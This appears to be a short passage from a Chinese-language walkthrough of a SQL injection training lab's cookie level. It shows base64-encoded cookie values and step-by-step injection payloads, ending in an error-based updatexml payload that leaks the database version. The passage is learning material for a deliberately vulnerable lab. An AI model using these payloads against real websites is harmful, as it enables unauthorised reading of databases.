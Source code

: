 

YWRtaW4%3D

YWRtaW4=

base64 解码为：admin

admin' -- YWRtaW4n

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less21-cookie.assets/1603917-20190620172333860-2024933218.png)

 

尝试闭合：

admin' and 's'='s -- YWRtaW4nIGFuZCAncyc9J3M=

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less21-cookie.assets/1603917-20190620172455226-1282197282.png)

payload:

`admin' and updatexml(null,concat(0x0a,(select version())),null) and 's'='s `

`YWRtaW4nIGFuZCB1cGRhdGV4bWwobnVsbCxjb25jYXQoMHgwYSwoc2VsZWN0IHZlcnNpb24oKSkpLG51bGwpIGFuZCAncyc9J3M=`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less21-cookie.assets/1603917-20190620172752638-1546351725.png)
